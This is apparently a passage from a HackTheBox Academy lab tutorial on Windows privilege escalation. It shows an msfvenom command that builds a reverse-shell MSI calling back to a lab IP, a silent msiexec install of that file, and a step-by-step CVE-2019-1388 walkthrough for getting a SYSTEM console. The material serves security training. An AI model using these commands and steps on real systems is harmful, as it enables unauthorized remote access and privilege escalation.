 ##### Exploiting Setting

```shell-session
PrinceAli1@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
```

We can upload this MSI file to our target, start a Netcat listener and execute the file from the command line like so:

``` batch
C:\htb> msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

If all goes to plan, we will receive a connection back as `NT AUTHORITY\SYSTEM`.

#### CVE-2019-1388

[CVE-2019-1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388) was a privilege escalation vulnerability in the Windows Certificate Dialog, which did not properly enforce user privileges. The issue was in the UAC mechanism, which presented an option to show information about an executable's certificate, opening the Windows certificate dialog when a user clicks the link. The `Issued By` field in the General tab is rendered as a hyperlink if the binary is signed with a certificate that has Object Identifier (OID) `1.3.6.1.4.1.311.2.1.10`. This OID value is identified in the [wintrust.h](https://docs.microsoft.com/en-us/windows/win32/api/wintrust/) header as [SPC_SP_AGENCY_INFO_OBJID](https://docs.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptformatobject) which is the `SpcSpAgencyInfo` field in the details tab of the certificate dialog. If it is present, a hyperlink included in the field will render in the General tab. This vulnerability can be exploited easily using an old Microsoft-signed executable ([hhupd.exe](https://packetstormsecurity.com/files/14437/hhupd.exe.html)) that contains a certificate with the `SpcSpAgencyInfo` field populated with a hyperlink.

When we click on the hyperlink, a browser window will launch running as `NT AUTHORITY\SYSTEM`. Once the browser is opened, it is possible to "break out" of it by leveraging the `View page source` menu option to launch a `cmd.exe` or `PowerShell.exe` console as SYSTEM.

**Microsoft released a [patch](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2019-1388) for this issue in November of 2019. Still, as many organizations fall behind on patching, we should always check for this vulnerability if we gain GUI access to a potentially vulnerable system as a low-privilege user.**

1. First right click on the `hhupd.exe` executable and select `Run as administrator` from the menu.
2. Next, click on `Show information about the publisher's certificate` to open the certificate dialog. Here we can see that the `SpcSpAgencyInfo` field is populated in the Details tab.

    ![image](https://academy.hackthebox.com/storage/modules/67/hhupd_details.png)

3. Next, we go back to the General tab and see that the `Issued by` field is populated with a hyperlink. Click on it and then click `OK`, and the certificate dialog will close, and a browser window will launch.

    ![image](https://academy.hackthebox.com/storage/modules/67/hhupd_ok.png)

4. If we open `Task Manager`, we will see that the browser instance was launched as SYSTEM.
5. Next, we can right-click anywhere on the web page and choose `View page source`. Once the page source opens in another tab, right-click again and select `Save as`, and a `Save As` dialog box will open.
6. At this point, we can launch any program we would like as SYSTEM. Type `c:\windows\system32\cmd.exe` in the file path and hit enter. If all goes to plan, we will have a cmd.exe instance running as SYSTEM.

